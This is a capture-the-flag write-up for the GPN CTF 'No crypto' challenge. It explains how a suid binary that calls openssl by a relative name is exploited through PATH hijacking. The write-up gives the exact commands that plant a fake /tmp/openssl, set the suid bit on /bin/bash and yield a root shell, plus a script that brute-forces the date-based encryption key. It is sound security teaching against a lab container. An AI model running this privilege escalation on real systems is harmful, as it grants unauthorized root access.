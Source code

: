# No crypto

|||
|-|-|
|  **CTF**  |  [GPN CTF](https://play.ctf.kitctf.de/) [(CTFtime)](https://ctftime.org/event/2257)  |
|  **Author** |  13x1 |
|  **Category** |  Miscellaneous |
|  **Solves** |  24  |
| **Files** |  [no-crypto.tar.gz](<no-crypto.tar.gz>)  |

![image](https://github.com/0xM4hm0ud/CTF-Writeups/assets/80924519/547f3042-d9e2-4082-8786-aca68cd496e2)

# Solution

When we unzip the file, we can see a few files. Let's check the source of the binary called cli:

```c
#include <stdio.h>
#include <string.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <unistd.h>
#include <stdlib.h>

int main() {
    while (1) {
        char date[256];
        printf("Guess when I was encrypted ([YYYY]-[MM]-[DD]T[HH]:[MM]:[SS]+[HH]:[MM]): ");
        if (fgets(date, sizeof(date), stdin) == NULL) {
            printf("Error reading input.\n");
            return 1;
        }
        date[strcspn(date, "\n")] = '\0';
        pid_t pid = fork();
        if (pid == -1) {
            printf("Error forking process.\n");
            return 1;
        } else if (pid == 0) {
            // Child process
            char* argv[] = {"openssl", "enc", "-d", "-aes-256-cbc", "-k", date, "-pbkdf2", "-base64", "-in", "flag.enc", "-out", "/dev/null", NULL};
            execvp("openssl", argv);
            printf("Error running openssl.\n");
            return 1;
        } else {
            // Parent process
            int status;
            waitpid(pid, &status, 0);
            if (WIFEXITED(status) && WEXITSTATUS(status) == 0) {
                printf("The guessed date is correct!\n");
                return 0;
            } else {
                printf("The guessed date is incorrect. Try again!\n");
            }
        }
    }
}
```

So, the binary first asks for a date. It then tries to decrypt the flag.enc file, and if the date is correct, it will let us know; otherwise, it will tell us it is wrong.


If we check the `encrypt.sh` file, we see that it encrypts the flag with OpenSSL based on the date:

```sh
date=$(date -uIseconds)
openssl enc -aes-256-cbc -k "$date" -pbkdf2 -base64 -in flag -out flag.enc
```

Let's check the Dockerfile of the challenge:

```dockerfile
# docker build -t no-crypto . && docker run -p 1337:1337 -t no-crypto
FROM debian:bullseye
RUN apt-get update && apt-get install -y --no-install-recommends build-essential openssl socat \
&& apt-get clean && rm -rf /var/lib/apt/lists/*
RUN mkdir /app
ARG FLAG=GPNCTF{fake_flag}
RUN echo "$FLAG" > /app/flag
COPY cli.c encrypt.sh /app/
WORKDIR /app/
RUN gcc -o cli cli.c \
&& bash encrypt.sh && rm flag \
&& chmod u+s cli \
&& chmod 700 /app/flag.enc
# save space in final image by uninstalling gcc and apt
RUN apt-get remove -y build-essential && apt-get autoremove -y && rm -rf /var/lib/apt/lists/*

RUN useradd -m ctf
USER ctf
EXPOSE 1337
CMD socat TCP-LISTEN:1337,reuseaddr,fork EXEC:/bin/bash,pty,stderr,sigint,sane
```

Here, we can see that it echoes the flag inside `/app/flag`. It then compiles the `cli` binary and runs `encrypt.sh`. After this, it will remove the flag and make the cli binary a `suid` binary. It also changes the permission of `flag.enc` so that only root can access it.

A few points we notice here is:

1. `ARG` is used for the flag, so the flag will not be available during runtime, only build time. If `ENV` was used, it would be accessible inside the container, but it is not useful because there is no process running as root; otherwise, we could get root and access `/proc/$PID/environ`.
2. Because of `chmod u+s`, `cli` is a `suid` binary. This means that no matter which user runs the binary, it always runs as the user that owns the file. In this case `root`.
3. We see that `encrypt.sh` is run, so we should check the date when `flag.enc` is created.

So, what is the bug?

A suid binary is not vulnerable by default. There are a few standard binaries in Linux that always have a suid bit, for example, `passwd`:

![image](https://github.com/0xM4hm0ud/CTF-Writeups/assets/80924519/b0cf6b97-bd34-4160-aff4-b3cda1fd378b)

So, it depends on the binary itself if it's vulnerable or not. If we take a closer look at `cli.c`, we can see that it calls `openssl` without using a full path (e.g., `/bin/openssl)`:

```c
char* argv[] = {"openssl", "enc", "-d", "-aes-256-cbc", "-k", date, "-pbkdf2", "-base64", "-in", "flag.enc", "-out", "/dev/null", NULL};
execvp("openssl", argv);
```

This means we can perform a trick called `path hijacking`. 
In Linux, when we call a binary, the system searches for the binary in a list of directories defined in the `$PATH` environment variable. We can modify this environment variable to anything we want.

An explanation of such attack, taken from [here](https://vk9-sec.com/privilege-escalation-linux-path-hijacking/):

1. Path Environment Variable: Linux systems have an environment variable called "PATH" that contains a list of directories in which the system searches for executable files. When a command is executed, the system looks for the corresponding executable file in these directories in the order specified by the PATH variable.
2. Finding a Vulnerable Application: The attacker looks for a vulnerable application that performs file operations or executes commands without properly validating user-supplied input or controlling the search path. For example, an application that uses relative paths or does not sanitize user input.
3. Identifying the Vulnerable Path: The attacker identifies a vulnerable point in the application where the input is used to construct a file path or command without proper validation. The goal is to find a way to manipulate the path used by the application to execute arbitrary files or commands.
4. Crafting the Attack: The attacker provides input that includes special characters or sequences to manipulate the path. These characters or sequences are designed to bypass security checks and allow the attacker to traverse directories or execute arbitrary files.
5. Exploiting the Vulnerability: By carefully constructing the input, the attacker can trick the vulnerable application into executing a malicious file or command. This can lead to various consequences, such as arbitrary code execution, unauthorized access, or privilege escalation.


In this challenge, we can do something like this:

```sh
echo -e '#!/bin/bash -p\nchmod +s /bin/bash' > /tmp/openssl # [1]
chmod +x /tmp/openssl # [2]
export PATH="/tmp:$PATH" # [3]
```
1. Here we create a file in `/tmp` with some code that will make the `bash` binary a suid binary.
2. We make the file executable.
3. We add the directory `/tmp` to our `PATH`. Notice that we add it at the beginning, so the system looks there first.

![image](https://github.com/0xM4hm0ud/CTF-Writeups/assets/80924519/9bd134ac-f662-4323-b583-7a577508238e)
We can see that `/tmp` is now added.
With this setup, when we call `cli`, it will run as root and execute our custom `openssl` binary. 

![image](https://github.com/0xM4hm0ud/CTF-Writeups/assets/80924519/f1dd58f3-f089-4fa3-881d-b03861d251bd)

We can see here that we successfully added a suid bit to `bash`. If we run `bash -p`, we will get the effective UID and GID of root. 
With this, we can read `flag.enc`.

![image](https://github.com/0xM4hm0ud/CTF-Writeups/assets/80924519/eaae58e1-ebc7-4873-b6ec-f62728088e68)

We can now use `stat` on the file to see the exact date of the file:

![image](https://github.com/0xM4hm0ud/CTF-Writeups/assets/80924519/3e37ae00-cf6f-42fd-a9be-3fae97e23ba5)

We change the format a little bit and can run this command to decrypt the flag:

```bash
openssl enc -d -aes-256-cbc -k "2024-05-29T01:31:06+00:00" -pbkdf2 -base64 -in flag.enc -out flag.txt
```

During the ctf, I used the date from the output of `ls -la`, so I bruteforced the correct date.

```bash
#!/bin/bash

# Define the start and end times for the brute-force range
start_time="2024-05-29T01:31:00+00:00" # Adjust the date to the correct format and time
end_time="2024-05-29T01:32:00+00:00"   # Brute-forcing within a 1-minute window for example

# Convert start and end times to seconds since epoch
start_epoch=$(date -d "$start_time" +%s)
end_epoch=$(date -d "$end_time" +%s)

# Loop through each second in the range
for ((epoch=$start_epoch; epoch<=$end_epoch; epoch++)); do
    # Convert epoch back to the date format used in the key
    date=$(date -u -d "@$epoch" +"%Y-%m-%dT%H:%M:%S+00:00")
    
    # Attempt to decrypt the file
    output=$(openssl enc -d -aes-256-cbc -k "$date" -pbkdf2 -base64 -in flag.enc -out - 2>/dev/null)
    
    # Check if decryption was successful and contains "GPNCTF{"
    if [[ "$output" == *"GPNCTF{"* ]]; then
        echo "Decryption successful with key: $date"
        echo "$output"
        break
    fi
done
exit 1
```

![image](https://github.com/0xM4hm0ud/CTF-Writeups/assets/80924519/6915f354-5cf5-491c-99ae-4c39ca1f301b)



